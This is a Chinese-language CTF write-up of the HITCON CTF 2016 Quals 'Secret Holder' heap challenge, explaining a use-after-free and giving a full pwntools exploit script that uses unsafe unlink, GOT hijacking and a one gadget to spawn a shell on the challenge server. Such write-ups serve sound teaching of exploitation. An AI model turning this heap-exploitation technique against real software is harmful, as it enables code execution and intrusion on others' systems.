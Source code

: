 ```yaml
---
title: '[HITCON CTF 2016 Quals] Secret Holder 100'
author: bruce30262
tags:
  - pwn
  - heap
  - HITCON CTF 2016
  - Use After Free
  - unsafe unlink
  - smallbin
  - one gadget
  - GOT hijacking
categories:
  - write-ups
date: 2016-10-14
layout: post
---
```

## Info  
> Category: pwn
> Point: 100
> Author: bruce30262 @ BambooFox
> 這題是比賽結束後才解出來的 :(

## Analyzing
64 bit ELF, Partial RELRO, 有canary & NX, 沒PIE

程式行為很簡單:

* keep secret: 新增一個 secret ( 使用 calloc )
* wipe secret: 刪除一個 secret
* renew secret: 編輯一個 secret

secret 種類有三種:

* small secret: secret buffer 大小為 40  
* big secret: secret buffer 大小為 4,000 
* huge secret: secret buffer 大小為 400,000 

三個 secret 的 buffer address 都會存在 global 段。

這題的洞主要是在 `wipe` 那邊，在刪除一個 secret 的時候不會檢查 secret 是否存在，因此存在著 Use-After-Free 的情形。例如 keep(small) --> wipe(small) --> keep(big) --> **wipe(small)**，這樣的操作可以製造出 dangling pointer。

比賽當下在解的時候頂多做出 small 和 big buffer overlapped 的情形，但是因為兩者的 base address 位於同樣的位址，因此無法改到 chunk header。此外雖然可以改到 top_size，但是因為 malloc 大小不可控的關係，因此也無法利用 [House of Force](https://github.com/shellphish/how2heap/blob/master/house_of_force.c) 來解這題。當時沒有想到要用 huge 來解題，因為覺得 huge 的 buffer 其 size 過大，必定會使用 `mmap` 來配置記憶體，所以覺得沒有什麼可以利用的點。比賽結束後，經詢問卻發現原來 huge 是這題的關鍵...


## Exploit
關鍵在於，第一次 `keep(huge)` 的時候的確會使用 `mmap` 來配置記憶體，但是將 huge 給 wipe 掉之後，**第二次 `keep(huge)` 時會使用 `malloc` 來進行配置**，而非 `mmap`。因此掌握到這點之後，我們可以透過以下步驟來 exploit 這題:

1. 先透過一連串的 `keep` 和 `wipe`，讓 small 和 huge 的 buffer 位置重疊 ( same base address )。
2. 之後 `keep(big)`，讓 big 的 buffer 位置接在 small 的後面。
3. `renew(huge)`，此時就可以蓋到 big 的 chunk header。我們可以在 big 的 buffer 位置偽造假的 smallbin，並在其附近偽造一些 chunk，之後 `wipe(big)`，做 [unsafe unlink attack](https://github.com/shellphish/how2heap/blob/master/unsafe_unlink.c)，overwrite 掉位於 global data 段上的 buffer address。
4. 假設改掉的是 huge 的 buffer address，之後我們就可以透過 `renew(huge)` 來覆寫掉所有 secret 的 buffer address。
5. 之後我們就可以透過 `renew(small/big/huge)` 來做任意位址讀寫。

(想了解 unsafe unlink 如何 work 的可以參考這兩篇: [link1](http://winesap.logdown.com/posts/258859-0ctf-2015-freenote-write-up), [link2](http://angelboy.logdown.com/posts/259180-0ctf-2015-write-up) )

能做到任意位址讀寫之後基本上就差不多了。因為 GOT 可寫的關係，因此接下來可以利用 GOT hijacking 來 exploit。不過因為這題我們還沒有 leak 的關係，因此要先透過 GOT hijacking 做 leak，之後再控制 control flow 拿 shell。

這裡我的做法是先將 free 改成 puts，並將 small 的 buffer 改成 `__libc_start_main@got.plt`，這樣子在 `free(small)` 的時候就可以 leak libc 的 address。之後再 hijack 任意一個 GOT 跳 [one gadget](http://j00ru.vexillium.org/blog/24_03_15/dragons_ctf.pdf)，即可拿到 shell。

```python exp_secret.py
#!/usr/bin/env python
from pwn import *
import subprocess
import sys
import time

HOST = "52.68.31.117"
PORT = 5566
ELF_PATH = "./secret_holder_noalarm"
LIBC_PATH = "/lib/x86_64-linux-gnu/libc.so.6"

# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)
libc = ELF(LIBC_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def keep(ch, secret):
    r.sendlineafter("3. Renew secret\n", "1")
    r.sendlineafter("3. Huge secret\n", str(ch))
    r.sendafter("secret: \n", secret)

def wipe(ch):
    r.sendlineafter("3. Renew secret\n", "2")
    r.sendlineafter("3. Huge secret\n", str(ch))

def renew(ch, secret):
    r.sendlineafter("3. Renew secret\n", "3")
    r.sendlineafter("3. Huge secret\n", str(ch))
    r.sendafter("secret: \n", secret)

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)

    keep(1, "A"*8)
    keep(2, "A"*8)
    keep(3, "A"*8)
    wipe(1)
    wipe(2)
    wipe(3)

    keep(3, "3"*8) # now huge chunk will use malloc, not mmap!!
    wipe(1)
    keep(1, "A"*8) # now huge = small
    keep(2, "2"*8) # big will adjacent to the end of the small buffer

    # 0x6020a8 stores the huge buffer's address
    fake_fd = 0x6020a8 - 0x18
    fake_bk = 0x6020a8 - 0x10

    # overwrite big's chunk data with fake chunk data for unsafe unlink
    payload = p64(0) + p64(0x21) # fake prev_chunk header
    payload += p64(fake_fd) + p64(fake_bk) # fake fd and bk
    payload += p64(0x20) + p64(0x90) # we are going to free here
    payload += "B"*0x80
    payload += p64(0x90) + p64(0x91) # fake next_chunk header
    payload += "C"*0x80
    payload += p64(0x90) + p64(0x91) # fake next_next_chunk header
    renew(3, payload)
    
    wipe(2) # free big, trigger unsafe unlink

    # now huge_buf will point to global data section
    # renew huge, overwrite small, big & huge buffer address
    payload = "A"*0x10
    payload += p64(0)
    payload += p64(0x6020b0) # &small_buf
    payload += p64(elf.got['free'])
    renew(3, payload)
    
    renew(1, p64(elf.plt['puts'])) # make free(buf) = puts(buf)
    
    # make small_buf = libc_start_main got
    # wipe(small) = puts(small) = puts(got) = leak address
    payload = p64(elf.got['__libc_start_main']) + p32(1)*3
    renew(3, payload)
    wipe(1)
    libc.address += u64(r.recvline().strip().ljust(8, "\x00")) - libc.symbols['__libc_start_main']
    one_gadget = libc.address + 0x4525a
    log.success("libc_base: "+hex(libc.address))
    log.success("one_gadget: "+hex(one_gadget))

    # hijack puts@got.plt, make it jump to one_gadget
    payload = p64(elf.got['puts']) + p32(1)*3
    renew(3, payload)
    renew(1, p64(one_gadget))

    r.interactive()
```

flag: `hitcon{The73 1s a s3C7e+ In malloc.c, h4ve y0u f0Und It?:P}`

這題學到的教訓是 fuzz 真的要做完整，然後不要太相信自己所學的東西 Q_Q